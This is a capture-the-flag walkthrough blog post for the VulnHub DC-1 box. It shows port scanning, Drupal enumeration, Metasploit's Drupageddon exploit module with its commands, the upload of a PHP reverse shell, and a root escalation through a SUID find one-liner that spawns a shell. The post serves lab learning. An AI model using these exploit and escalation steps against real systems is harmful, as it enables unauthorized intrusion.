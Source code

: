 ```yaml
---
layout: "post"
title: "DC 1 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-1, easy, Drupal, suid]
---
```

DC-1 was a simple and straightforward `CVE` based box. We find the server is hosting `Drupal CMS`. I saw that Drupal version had a CVE which allowed me drop a `webshell` in webserver. Priv sec to root by exploiting `find SUID binary`. 

# Summery
- Portscan
- Drupal Enumeration
- Exploting drupal to get shell
- Privilege Escalation by exploting SUID binary
- Getting Root
- Final Flag

# Portscan

```
Nmap scan report for 192.168.1.12
Host is up (0.00022s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
```
# Drupal
I visit the website. I find that server is running Drupal CMS. I don't have any idea about drupal so I search online and findout `droopescan` tool. I installed it and run it.

For installation:
```bash
pip install droopescan
```

After installation I run `droopescan`.

![droopescan](/assets/img/dc-1/droopescan.png)

# Initial Shell
From scan I find out some useful stuff but drupal version grab my attention.Then I findout exploits on `searchsploit`.
```bash
searchsploit drupal 7
``` 
![searchsploit](/assets/img/dc-1/searchsploit.png)

I start metasploit and used the exploit.

```
use exploit/multi/http/drupal_drupageddon
set rhosts 192.168.1.12
run
```

![meterpreter_shell](/assets/img/dc-1/meterpreter_shell.png)
In this way I have meterpreter session
## Flag 1 
After getting shell I found ```flag1.txt``` 
![flag1](/assets/img/dc-1/flag1.png)

## Netcat Shell
Now I have meterpreter so tried to launch shell and run the commands but due to some reasons I am not able to run commands.
![not working shell](/assets/img/dc-1/not_working_shell.png)
 The metasploit shell is not working so that I shift to netcat shell by uploading ```php-reverse-shell```.

![upload_shell](/assets/img/dc-1/upload_shell.png)

![nc_shell](/assets/img/dc-1/nc-shell.png)

# Privsec to Root

After some enumeration I noticed that ```find``` has SUID bit set, we can run the commands as root.
With one simple command we get root.

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```
![root](/assets/img/dc-1/root.png)
## Final Flag
![finalflag](/assets/img/dc-1/finalflag.png)


